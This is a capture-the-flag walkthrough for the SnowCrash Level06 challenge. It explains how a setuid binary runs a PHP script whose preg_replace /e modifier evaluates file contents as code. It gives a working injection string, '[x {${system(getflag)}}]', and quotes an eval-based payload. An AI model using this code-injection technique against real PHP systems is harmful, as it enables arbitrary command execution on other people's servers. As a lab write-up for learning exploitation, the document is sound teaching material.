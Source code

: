 # Level06

## Research

```bash
level06@SnowCrash:~$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

```bash
level06@SnowCrash:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
level06@SnowCrash:~$ ./level06.php
PHP Notice:  Undefined offset: 1 in /home/user/level06/level06.php on line 5
PHP Notice:  Undefined offset: 2 in /home/user/level06/level06.php on line 5
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
```
```bash
level06@SnowCrash:~$ strings level06
[...]
/usr/bin/php
/home/user/level06/level06.php
[...]
```
Maybe `level06` executes `level06.php`.

If we `cat level06.php` the file is hard to read, so I re-wrote it and study it: 
```php
#!/usr/bin/php
<?php
    function y($m) { 
        $m = preg_replace("/\./", " x ", $m); 
        $m = preg_replace("/@/", " y", $m); 
        return $m; 
    }
    // manipule argv 1
    function x($y, $z) {
        // read file y and put content into string a
        $a = file_get_contents($y); 
        // first / indicates start of regular expression
        // second / indicates end of it, and start of expression flags
        // expression flag here: e , known for security problem
        // The e modifier is a PHP-specific modifier that triggers PHP 
        // to run the resulting string as PHP code.
        // the '/e' modifier actually allows us to evaluate the second argument as a PHP expression.
        // calls the function eval()
        // programms call function y() here thanks to modifier e
        // () Capturing group. Groups multiply tokens together and creates a capture group
        // for extracting a substring or using a backreference
        // \1 - it means the first capturing group in the matched expression. 
        // \n would be the nth capturing group. (Note that \0 would be whole match). 
        // In many engines, the upperlimit for n is 9, but some support up to 99 as well.
        // When used in regex like (a|b)\1, it means that after a or b, the next character 
        // should be the first captured group, which is a or b so the regex here would 
        // match aa or bb.
        // \[ matches a [ character
        // x matches a x character and a space one
        // . matches any character except line breaks
        // * matches 0 or more of the preceding token
        // \] matches a ] character

        // \[x (.*)\] first group --> [x ] or [x coucou] matches
        // .* second group, given as parameter to function y --> [x @.coucou] changes @ and . in y function
        // [x@ @.coucou] don't match first group, so it doesn't work
        $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
        // replace [ by (
        $a = preg_replace("/\[/", "(", $a);
        // replace ] by )
        $a = preg_replace("/\]/", ")", $a);
        return $a; 
    }
    // y = argv 1
    // z = argv 2
    $r = x($argv[1], $argv[2]); 
    print $r;
?>
```
`As /e evaluates arbitrary PHP code it can easily be exploited if user input is not carefully validated or sanitized.
For example the above example can be used to execute arbitrary PHP code by passing the string <h1>{${eval($_GET[php_code])}}</h1>. The evaluted code in this case would be "<h1>" . strtoupper("{${eval($_GET[php_code])}}") . "</h1>" and as such execute any PHP code passed in the php_code GET variable. ` </br>
https://wiki.php.net/rfc/remove_preg_replace_eval_modifier


```bash
level06@SnowCrash:~$ ./level06 hello
PHP Warning:  file_get_contents(hello): failed to open stream: No such file or directory in /home/user/level06/level06.php on line 4
```
We seems to need a file as an argument.

Theorical steps:
- Create a file with a syntax matching the regex
- So a part of the string (the second group) can be sent to function y
- In function y the string will be transformed (or not) then returned
- The returned string will be executed by the e modifier</br>
https://www.yeahhub.com/code-execution-preg_replace-php-function-exploitation/ </br>

In reality:
- Struggled **a lot** to find good syntax, tried: </br>
`echo '[x $(getflag)]' > /tmp/flag && ./level06 /tmp/flag` </br>
`echo '[x ${system(getflag)}]' > /tmp/flag && ./level06 /tmp/flag` </br>
and a lot of variants of it...

## Solution 

Let's find the good syntax:</br>
https://www.php.net/manual/fr/language.types.string.php</br>
https://www.voidsecurity.in/2012/12/exploit-exercise-php-pregreplace.html</br>
https://www.php.net/manual/fr/language.types.string.php#language.types.string.parsing.complex 

Finally:
```bash
level06@SnowCrash:~$ echo '[x {${system(getflag)}}]' > /tmp/flag && ./level06 /tmp/flag
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
Check flag.Here is your token : XXXXXXXXXXXXXXXXXXXXXXX
PHP Notice:  Undefined variable: Check flag.Here is your token : XXXXXXXXXXXXXXXXXXX in /home/user/level06/level06.php(4) : regexp code on line 1

```


